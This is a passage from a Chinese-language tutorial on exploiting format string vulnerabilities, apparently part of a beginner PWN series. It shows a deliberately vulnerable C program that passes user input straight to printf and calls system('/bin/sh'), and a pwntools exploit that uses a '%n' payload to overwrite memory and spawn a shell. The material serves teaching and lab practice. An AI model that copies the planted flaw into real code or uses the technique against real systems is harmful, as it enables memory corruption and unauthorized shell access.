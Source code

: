 ```
io.send(payload)
io.interactive()
```

**2.利用格式化字符串漏洞完成内存写**

我们给出一个示例程序：

```
#include&lt;stdio.h&gt;
#include&lt;string.h&gt;
#include&lt;stdlib.h&gt;
void exploit()
`{`
    system("/bin/sh");
`}`
int func()
`{`
    int *flag;
    char *cmp = "y";
    char name[20] = `{`0`}`;
    flag = (char *)malloc(4);
    memset(flag, 0, 4);
    memcpy(flag, "n", 1);
    scanf("%s", name);
    printf(name);
    if(!strcmp(flag, cmp))
    `{`
        exploit();
    `}`
    return 1;
`}`
int main()
`{`
    func();
    return 0;
`}`
```

可以看出，当flag的内容为y时，才能执行system("/bin/sh")，然而，flag的值总为n。这时候就需要用格式化字符串漏洞来写内存了。因为y的ascii码对应的10进制数为121，所以要打印121个字符，最终我们的exploit如下：

```
from pwn import *
io = process("./vuln")
elf = ELF("./vuln")
shell_addr = elf.symbols["exploit"]  
payload = "%0121x%5$n"   
io.sendline(payload)   
io.interactive()
```

最后，如果是64bit的程序，需要泄漏canary的情况下。因为x86_64的canary为8字节，所以需要两次泄漏（误），其实使用%lx就可以啦。

<br>

**0x04 参考文献**

[http://www.secbox.cn/hacker/7482.html](http://www.secbox.cn/hacker/7482.html)

[http://www.freebuf.com/articles/network/62473.html](http://www.freebuf.com/articles/network/62473.html)



**传送门**

[**【技术分享】跟我入坑PWN第一章******](http://bobao.360.cn/learning/detail/3300.html)


